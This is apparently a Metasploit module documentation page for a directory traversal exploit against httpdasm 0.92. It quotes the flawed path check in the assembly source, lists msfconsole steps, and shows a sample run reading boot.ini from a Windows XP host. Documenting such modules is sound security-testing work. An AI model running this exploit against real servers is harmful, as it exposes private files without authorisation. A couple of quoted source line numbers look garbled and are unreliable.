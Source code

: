 ## Description

  This module exploits a directory traversal vulnerability to read files from a server running httpdasm v0.92.

## Vulnerable Application

  httpdasm 0.92

  The vulnerability can be found in HTTPRqst.asm file.

  The beginning of the ServeContent routine attempts to check file path with SafeFilePath:

  ```
  1403 invoke SafeFilePath, __this
  1404 .if (!eax) ;File is not safe
  1405 mov m_dwCode, HTTP_STATUS_FORBIDDEN
  1406 jmp doneHTTPGet
  1407 .endif
  1408 invoke ExtractFilename, __this
  1409 .if (!eax)
  1410 mov m_dwCode, HTTP_STATUS_URI_TOO_LONG ;max URI is 256 here
  1411 jmp doneHTTPGe$
  1412 .endif
  ```

  The SafeFilePath checks for directory traversal with these possible values such as "..", "//", "\", ":", which is inadequate to prevent a traversal attack:

  ```
  502 .if ((cx == '..') || (cx == '//') || (cl == '\') || (cl == ':'))
  1503 return 0
  1504 .endif
  ```


## Verification Steps

  1. Start `msfconsole`
  2. `use [auxiliary/scanner/http/httpdasm_directory_traversal]`
  3. `set RHOSTS [IP]`
  4. `run`

## Scenarios

### Tested on Windows XP x86

  ```
  msf > use auxiliary/scanner/http/httpdasm_directory_traversal
  msf auxiliary(scanner/http/httpdasm_directory_traversal) > set rhosts 192.168.37.128
  rhosts => 192.168.37.128
  msf auxiliary(scanner/http/httpdasm_directory_traversal) > run

  [boot loader]
  timeout=30
  default=multi(0)disk(0)rdisk(0)partition(1)\WINDOWS
  [operating systems]
  multi(0)disk(0)rdisk(0)partition(1)\WINDOWS="Microsoft Windows XP Professional" /noexecute=optin /fastdetect

  [*] Auxiliary module execution completed
  msf auxiliary(scanner/http/httpdasm_directory_traversal) >
  ```
